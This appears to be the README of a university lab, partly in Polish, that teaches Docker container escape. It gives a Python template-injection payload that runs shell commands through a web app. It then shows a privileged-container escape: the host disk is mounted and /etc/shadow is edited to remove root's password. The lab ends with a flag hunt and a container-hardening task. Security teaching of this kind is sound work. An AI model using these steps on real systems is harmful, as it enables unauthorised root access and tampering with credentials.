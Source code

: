 
# Docker-Escape
This project shows vulnerability how to escape from Docker container in which web application is running. <br />

## About
This project was made for academic purposes during one of our courses at the AGH University of Krakow. <br />
We present security issues in Docker. We show vulnerabilities of this software and best practices related to them. Below we also include case-studies showing how to get into the server from the user level of a web application, how to escape from this container and the possibilities that open up to us after such an escape.<br />

  
## Authors:
[Huber Mąka](https://github.com/norka02) <br />
[Karol Makara](https://github.com/KarolMakara) <br />
[Jakub Kowal](https://github.com/jd-kowal) <br />

*** 

# Tasks


## Task 0 - Przygotowanie środowiska
Aby rozpocząć wykonywanie zadań sklonujcie repozytorium. <br />
Będziemy używać Dockera (kontener w kontenerze). Całość jest przygotowana w docker.file. <br />
Następnie wykonaj poniższe komendy. <br />

Build:
```bash: 
docker build -t ubuntu-dind
```

Run:
```bash: 
docker run -d -p 5000:5000 --privileged --hostname ubuntu-dind --name ubuntu-dind ubuntu-dind
```

Enter:<br />
```bash: 
docker exec -itu adam ubuntu-dind bash
```

**TIP** - w przypadku problemów -> zrestartuj kontener 

## Task 1 - Dostęp do serwera z perspektywy użytkownika aplikacji webowej
Na kontenerze jest uruchomiona aplikacja webowa. Znając jej podatność omówioną podczas prezentacji spróbuj za pomocą preparacji url-a wykonać podstawowy pentesting (np. podawany podczas prezentacji przykład wyrażenia 7*7). <br />
Następnie jeżeli w wyniku wcześniejszego przykładu otrzymasz wynik 49 to możemy przejść dalej. <br />
Do następnej czynności będziemy potrzebowali poniższej komendy. <br />

```
"baiim".__class__.__base__.__subclasses__()[<Liczba_Którą_Znalazłeś>].__init__.__globals__['sys'].modules['os'].popen(<Twoja_Komenda>).read()
```

Najpierw jednak musimy znaleźć **LICZBĘ**. Aby ją odszukać użyj programu ``hack.py`` w konsoli.

**Odpowiedź** - wyślij ss, który wylistuje wszystkie pliki i katalogi z aktualnego katalogu (wpisz tą komendę w popen()) 

## Task 2 - Docker Escape & Privilege Escalation
**TIP** - proponujemy przejście z wykonywaniem zadań do terminala. <br />
Ucieczkę z kontenera umożliwia nam złe skonfigurowanie kontenera. <br />

Spróbuj zmienić użytkownika na root-a (nie powinieneś mieć takiej możliwości - powinieneś być na adamie) {**PE**}: 
```
su root
```
Sprawdź listę dostępnych obrazów:
```
docker images
```
Pobierz obraz dockera z repozytorium:
```
docker pull ubuntu
```
<< SS >>
Po pobraniu sprawdź czy obraz pobrał się poprawnie za pomocą:
```
docker images
```
Będąc na użytkowniku **adam** uruchom kontener {**DE**}:
```
docker run --rm -it --name kontener-adama --hostname ubuntu-by-adam --privileged ubuntu bash
```
Teraz jesteś wewnątrz swojego kontenera, którego przed chwilą stworzyłeś. Możesz to sprawdzić za pomocą komend ``whoami`` oraz ``hostname``. <br />
Przykładowy ScreenShot znajduje się poniżej.
<< ScreenShot >>
Jak możesz zauważyć tworząc własny kontener masz w nim uprawnienia root-a. <br />
Następnie stwórz w swoim kontenerze z obrazem ubuntu katalog: <br />
```bash
mkdir -p /mnt/share
```
Oraz podmontuj odpowiednią partycję dysku do tego katalogu np. /dev/sdc: <br />
```bash
mount /dev/sdc /mnt/share
```
Domyślnie polecenie mount nadaje ci prawa do zapisu i odczytu, ale jeśli wystąpiłby przykładowo taki komunikat: <br />
<img> <br />
Zmień partycję dysku. Listę partycji możesz uzyskać za pomocą polecenia: <br />
```bash
lsblk
```
Dzięki podmontowaniu partycji jesteśmy w stanie uzyskać dostep do struktury katalogów hosta. Spróbuj przedostać się do zewnętrznego <br />
systemu plików, odnajdź pliki ``/etc/shadow`` oraz ``/etc/passwd`` i usuń w nich elementy odpowiadające za uwierzytelnienie użytkownika root <br />

Musimy zainstalować w kontenerze wybrany przez siebie edytor tekstowy (np. vim, nano). <br />
Za pomocą edytora tekstowego otwieramy plik ``/etc/shadow``. <br />
Trzeba usunąć część wskazującą na obecność hasła root-a w pliku shadow {**PE**}.
<< ScreenShot >>
Wyjdź z kontenera za pomocą ``exit``. <br />
Zmień użytkownika na root-a {**PE**}:
```
su root
```

**Odpowiedź** - wyślij ss potwierdzającego twoje uprawnienia root-a. 

## Task 3 - Mini-CTF
Mając uprawnienia root-a możesz poruszać się bezproblemowo po systemie. Znajdź katalog, który nie powinien znajdować się w systemie/wyróżnia się spośród pozostałych. W nim znajduje się plik z flagą. Zmodyfikuj znaleziony plik dodając swoje imię i nazwisko. <br />

**Odpowiedź** - wyślij widoczną zmodyfikowaną flagę wraz z dopisanym unikalnym tekstem wymienionym wyżej oraz ścieżkę do katalogu, w którym znajduje się znaleziona flaga. 

## Task 4 - Tworzenie Bezpiecznego Kontenera
Posiadając całą wiedzę zdobytą podczas prezentacji oraz poprzednich tasków zastanów się w jaki sposób możesz zabezpieczyć kontener przed różnymi wektorami ataków. <br />
Stwórz kontener, który spełnia wszystkie best-practice dot. bezpiecznego tworzenia kontenera Dockera. <br />
<br />
**Odpowiedź** - wyślij widoczną komendę, która tworzy **Bezpieczny Kontener**. <br />
